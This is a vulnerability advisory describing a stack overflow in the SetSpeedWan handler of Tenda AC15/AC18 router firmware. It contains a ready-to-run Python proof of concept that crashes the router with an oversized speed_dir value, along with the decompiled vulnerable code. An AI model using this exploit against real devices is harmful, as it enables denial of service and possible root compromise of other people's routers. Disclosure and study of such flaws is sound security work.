 ### Affected product

```
AC15 V15.03.05.19  AC18 V15.03.05.19
```

/goform/SetSpeedWan，speed_dir is controllable and will eventually be spliced into s by sprintf. It is worth noting that the size is not checked, resulting in a stack overflow vulnerability

### POC

```
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.119'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x100
p2 = b'ucloud_enabld=1&speed_dir' + p1

p3 = b"POST /goform/SetSpeedWan" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.119" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A; password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

### Detail

```c
  v7 = (char *)sub_2BA8C(a1, "speed_dir", "0");
  v6 = (char *)sub_2BA8C(a1, "ucloud_enable", "0");
  v5 = sub_2BA8C(a1, "password", "0");
  GetValue("speedtest.flag", nptr);
  if ( atoi((const char *)nptr) )
  {
    v8 = 1;
  }
  else
  {
    SetValue("speedtest.flag", "1");
    if ( atoi(v7) )
    {
      if ( !atoi(v6) )
      {
        SetValue("ucloud.en", "1");
        SetValue("ucloud.syncserver", "1");
        SetValue("ucloud.password", v5);
        SetValue("qos.ucloud.flag", "1");
        doSystemCmd("cfm Post ucloud 0");
      }
      SetValue("speedtest.ret", "2");
      doSystemCmd("/bin/speedtest %d %d &", 1, 1);
    }
    else
    {
      SetValue("speedtest.ret", "4");
      doSystemCmd("cfm Post ucloud 5");
    }
  }
  sprintf((char *)s, "{\"errCode\":%d,\"speed_dir\":%s}", v8, v7);
  return sub_9CCBC(a1, s);
```

You can see the router crash, and finally we can write an exp to get a root shell
